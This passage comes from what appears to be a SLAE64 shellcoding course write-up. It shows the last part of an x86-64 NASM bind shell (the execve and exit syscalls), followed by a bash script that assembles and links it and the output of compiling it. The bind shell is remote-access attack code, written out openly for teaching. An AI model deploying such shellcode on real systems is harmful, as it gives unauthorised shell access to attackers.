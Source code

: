 ```nasm

	mov rdx, rsp		; rdx points at the top of the stack

	push rdi

	mov rsi, rsp	

	add al, 0x3b		; 3b is the hex value of the decimal 59 for execve        

	syscall			; exec execve syscall

exit:
	xor rax, rax
        add rax, 0x3c		; 3c is the hex value of the decimal 60 for exit

        xor rdi, rdi
	dec rdi			; status

        syscall			; exec exit syscall
```

## Testing the Bind Shell

In order to test the Bind Shell, we need to compile it. Compilation process consists of 2 separate processes:

- Assembling: can happen with the `nasm` assembler, which assembles the input file (`.nasm`) and directs output to the output file (`.o`) if specified. It basically "translates" the `Assembly` code.
- Linking: can happen with the GNU linker `ld`, which combines a number of object and archive files, relocates their data and ties up symbol references. It basically provides information such as where the entry point of a program is. By default the entry point is `_start` but this can be changed.

The following `bash` script automates that process:

```bash
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -felf64 -o $1.o $1.nasm

echo '[+] Linking ... '
ld -o $1 $1.o

echo '[+] Done!'
```

The following command does the compilation and creates the executable `bind`:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/1_Shell_bind_tcp$ ./compile.sh bind
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
```
